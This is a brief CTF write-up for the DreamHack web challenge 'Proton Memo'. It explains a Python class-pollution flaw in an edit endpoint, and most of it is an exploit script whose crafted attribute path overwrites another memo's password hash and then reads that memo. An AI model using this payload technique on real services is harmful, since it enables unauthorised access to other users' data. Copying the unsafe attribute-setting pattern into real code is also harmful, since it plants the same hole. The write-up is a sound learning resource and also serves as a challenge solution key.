

# Proton Memo — DreamHack

> **Room / Challenge:** Proton Memo (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** DreamHack
- **Challenge:** Proton Memo (web)
- **Link**: `https://dreamhack.io/wargame/challenges/884`
- **Level:** `4`
- **Date:** `28-11-2025`

---

## Goal

Leveraging Python Class Pollution to change secret memo password and get the flag.

## My Solution

The vulnerability is in `edit_memo` (`/edit/<uuid:memo_id>`):

```python
set_attr(memo, selected_option + ".data", edit_data)
```

The `Memo` has a `collection` which stores all memo values, and it is accessible from any instance, so we will create our memo and make a edit request to that repo but actually we are pointing to the secret memo to change the password of it. Exploit code:

```python
import requests

URL = "http://host3.dreamhack.games:12463"

SECRET_MEMO_ID = "c973ff2a-fdd6-47d0-af81-46332e70d5d4"
MY_MEMO_ID = "cd7d7b4a-e922-4e8a-91c8-100e8e27eea8"

payload  = {
    "selected_option": f"__class__.collections.{SECRET_MEMO_ID}.password",
    "edit_data": "5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8",
    "password": "123"
}

requests.post(f"{URL}/edit/{MY_MEMO_ID}", data=payload)


res = requests.post(f"{URL}/view/{SECRET_MEMO_ID}", data={"password": "password"})

print(res.text)
```


